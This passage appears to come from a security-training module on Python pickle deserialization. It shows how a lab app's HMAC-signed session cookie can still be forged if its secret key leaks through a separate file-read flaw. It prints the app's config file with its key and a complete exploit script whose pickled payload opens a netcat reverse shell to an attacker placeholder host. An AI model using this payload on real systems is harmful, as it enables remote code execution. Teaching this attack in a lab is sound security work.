 ```python
```

Running the server and logging in, we can see the new cookie that `HTBooks` generates. It comes in the format `base64(pickle(Session)).base64(hmac)`:

![](https://academy.hackthebox.com/storage/modules/169/4/1-patched-htbooks-cookie.png)

Changing any byte of the pickled data or the HMAC results in the authenticity check failing and the cookie not being deserialized (since it can not be trusted).

While this update does prevent the attack from before, if we were somehow able to read files from the server and read the contents of `util/auth.py` and `util/config.py` we could carry out the same attacks, just with the extra step of calculating the HMAC.

Note that this is a hypothetical scenario that requires an extra vulnerability in the system to exist (arbitrary file read), so this is not to say that HMACs are insecure.

Assuming `HTBooks` implemented this HMAC verification, and we were able to read the contents of `util/config.py` and `util/auth.py`, let's quickly walk through obtaining RCE. First, set up the folder structure as before:

```shell
tree exploit
exploit
├── exploit.py
└── util
    └── config.py

```

Next, copy `util/config.py` from `HTBooks` into our exploit `util/config.py`:

```python
# HTBooks GmbH & Co. KG
# 10.10.2022

DB_NAME = "htbooks.sqlite3"
AUTH_COOKIE_NAME = "auth_8bH3mjF6n9"
SECRET_KEY = "99308b5cf8de84fe5573a1a775406423"

```

Finally, we just need to modify our `exploit.py` from the RCE section to generate the corresponding HMAC value:

```python
import pickle
import base64
import hashlib
import hmac
import os
import util.config

class RCE:
    def __reduce__(self):
        return os.system, ("nc -nv <ATTACKER_IP> 9999 -e /bin/sh",)

r = RCE()
p = pickle.dumps(r)
h = hmac.new(util.config.SECRET_KEY.encode(), p, hashlib.sha512).digest()
c = base64.b64encode(p) + b'.' + base64.b64encode(h)
print(c.decode())

```
